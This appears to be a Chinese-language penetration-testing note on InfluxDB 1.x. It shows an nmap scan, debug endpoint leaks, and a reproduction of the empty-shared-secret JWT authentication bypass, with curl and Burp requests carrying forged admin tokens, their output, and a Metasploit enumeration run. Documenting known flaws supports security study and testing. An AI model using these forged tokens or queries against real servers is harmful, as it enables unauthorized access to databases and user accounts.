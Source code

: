 ```yaml
---
title: InfluxDB
category:
- [Kali, Exploit]


tags:
  - null
date: 2020-12-04 20:24:03
top:
updated:
---
```


`influxdb` 是针对时间戳或时间序列数据进行优化的的`开源时序数据库`,  
    由Go语言编写，广泛应用于存储系统的监控数据、loT行业的实时数据等，处理高写入和高查询负载。
	
端口服务
* `8083` Web admin管理服务端口
* `8086` HTTP API的端口
* `8088` 集群端口
* `9096` 中继端口

> InfluxDB 1.x HTTP 端点

|Endpoint|Description|
|--------|---------- |
|/debug/pprof	|Generate profiles for troubleshooting|
|/debug/requests|	Track HTTP client requests to the /write and /query endpoints|
|/debug/vars   |	Collect internal InfluxDB statistics|
|/ping	|Check the status of your InfluxDB instance and your version of InfluxDB|
|/query|	Query data using InfluxQL, manage databases, retention policies, and users|
|/write	|Write data to a database|

## 信息收集
```zsh
sudo nmap -sV -Pn -T4 -sSU -p 8086 -sC    10.199.18.8                                                           
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-04 16:31 CST
Nmap scan report for 10.199.18.8
Host is up (0.057s latency).

PORT     STATE         SERVICE VERSION
8086/tcp open          http    InfluxDB http admin 1.2.4
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
8086/udp open|filtered d-s-n

Nmap done: 1 IP address (1 host up) scanned in 113.41 seconds
```
debug调试信息泄漏
```
http://10.199.18.7:8086/debug/vars 
http://10.199.18.7:8086/debug/pprof/heap 
http://10.199.18.7:8086/debug/pprof/goroutine 
http://10.199.18.7:8086/debug/pprof/goroutine?debug=1 
http://10.199.18.7:8086/debug/pprof/block 
http://10.199.18.7:8086/debug/pprof/profile 
http://10.199.18.7:8086/debug/pprof/threadcreate
```

## influxdb认证绕过漏洞
InfluxDB使用jwt作为鉴权方式。  
在用户开启了认证，但未设置参数shared-secret的情况下，`JWT token shared-secret` 默认为空，  
此时攻击者可以伪造任意用户身份在influxdb中执行SQL语句。


### `curl`命令复现
> 服务器未配置身份认证时可直接进行数据库相关操作
```zsh
curl  "http://10.199.18.7:8086/debug/requests"
curl -G 'http://10.199.18.7:8086/query' --data-urlencode 'q=show users'                    # 服务器未配置认证可直接查询
{"results":[{"statement_id":0,"series":[{"columns":["user","admin"]}]}]}
curl -G 'http://10.199.18.7:8086/query' --data-urlencode 'q=show databases'        # 查询数据库
{"results":[{"statement_id":0,"series":[{"name":"databases","columns":["name"],"values":[["gnocchi"],["_internal"],["test11"]]}]}]}
```

> 服务器配置身份认证，但`JWT token shared-secret` 默认为空时

构造[JWT Token](https://jwt.io/)

![influxdb-1](../images/influxdb-1.png)

发送POC

```zsh
curl -G 'http://xxx:8086/query'  -v \
	--data-urlencode 'q=show users' \ 
	-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNTU5Mjg0OTM1fQ.tUClNot9LgStSw57n26DSn-3NPkBiHizk-XOHMfJJJw'

# output
{"results":[{"statement_id":0,"series":[{"columns":["user","admin"],"values":[["admin",true],["read",false],["write",false],["telegraf",true]]}]}]}
```

### BurpSuite复现
```zsh poc
POST /query HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc2MzQ2MjY3fQ.NPhb55F0tpsp5X5vcN_IkAAGDfNzV5BA6M4AThhxz6A
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

q=show%20users
```
![influxdb-2](../images/influxdb-2.png)


## MSF相关模块利用
```zsh
msf6 auxiliary(scanner/http/influxdb_enum) > show options

Module options (auxiliary/scanner/http/influxdb_enum):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   root             yes       The password to login with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   QUERY      SHOW DATABASES   yes       The influxdb query syntax
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8086             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Path to list all the databases
   USERNAME   root             yes       The username to login as
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/influxdb_enum) > set rhosts 10.199.18.7
rhosts => 10.199.18.7
msf6 auxiliary(scanner/http/influxdb_enum) > run
[*] Running module against 10.199.18.7

[+] 10.199.18.7:8086 - Influx Version: 1.2.4
[+] File saved in: /Users/ethan/.msf4/loot/20201202195840_default_10.199.18.7_influxdb.enum_380609.txt
[*] Auxiliary module execution completed

```
